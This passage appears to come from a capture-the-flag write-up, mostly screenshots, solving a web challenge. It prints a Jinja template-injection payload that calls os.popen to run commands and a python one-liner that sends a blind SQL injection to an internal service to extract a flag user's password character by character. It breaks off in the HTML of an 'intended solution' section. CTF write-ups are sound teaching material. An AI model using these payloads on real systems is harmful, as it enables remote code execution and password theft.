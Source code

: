 ![image](https://user-images.githubusercontent.com/75429369/180790318-8867c96d-eaa5-4db3-8f22-32ccfcb4d1c1.png)

Read `{{config}}`

![image](https://user-images.githubusercontent.com/75429369/180790436-38012c35-e814-435d-b3a3-14946f3a2710.png)

Popen it

```python
{{lipsum['__globals__']['os']['popen'](config['t'])}}
```

![image](https://user-images.githubusercontent.com/75429369/180790561-1e502da6-0c0d-4469-b1bf-759927a0fec6.png)

![image](https://user-images.githubusercontent.com/75429369/180790589-b0937a51-941a-4be2-b525-1ec708ac0684.png)

Let's find out the IP 

![image](https://user-images.githubusercontent.com/75429369/180790704-9a3ded75-609b-4aae-838f-149dd2d83ffb.png)

So we got all we need, noticed that `requests` module was installed so we just use it to request to `http://172.24.0.8:8080/runquery`

![image](https://user-images.githubusercontent.com/75429369/180791111-0382a5c9-61a5-4108-b43a-75b4cec28c19.png)

```terminal
python3 -c "import requests; r=requests.post('http://172.24.0.8:8080/runquery', json={'username':'\'/**/or/**/(select/**/hex(substr(password,1,1))/**/from/**/users/**/where/**/username=\'flag\')/**/=/**/hex(\'L\')/**/--','password':'no'}); print(r.text)"
```

![image](https://user-images.githubusercontent.com/75429369/180793045-76e205d3-a38d-4ca8-b4f4-7de0fc51c757.png)

Now just write a script for all that :D

# EYANGCH Fan Art Maker (intended solution)

I'm very curious about the actual solution so let's just find out what's the intended solution of this chall. Let's read the code again (I've missed the `views` folder for the hold event :D)

![image](https://user-images.githubusercontent.com/75429369/180924860-ad5d0c06-4def-4d6d-81eb-179e18eec876.png)

```html
<!DOCTYPE HTML>
<html>
    <head>
        <title>EYANGCH Fan Art Maker <3</title>
        <style>
            .bg{
                background-image: url("https://cdn.discordapp.com/avatars/622575440305061910/e0fa5d8c91cc24f83af648736072d330.webp?size=256");
                background-repeat: repeat;
                opacity: 0.3;
                top: 0;
                left: 0;
                right: 0;
                position: absolute;
                z-index: -1; 
                height: 300%; 
            }
            pre code {
                background-color: #eee;
                border: 1px solid #999;
                display: block;
                padding: 10px;
                font-size: 18px;
```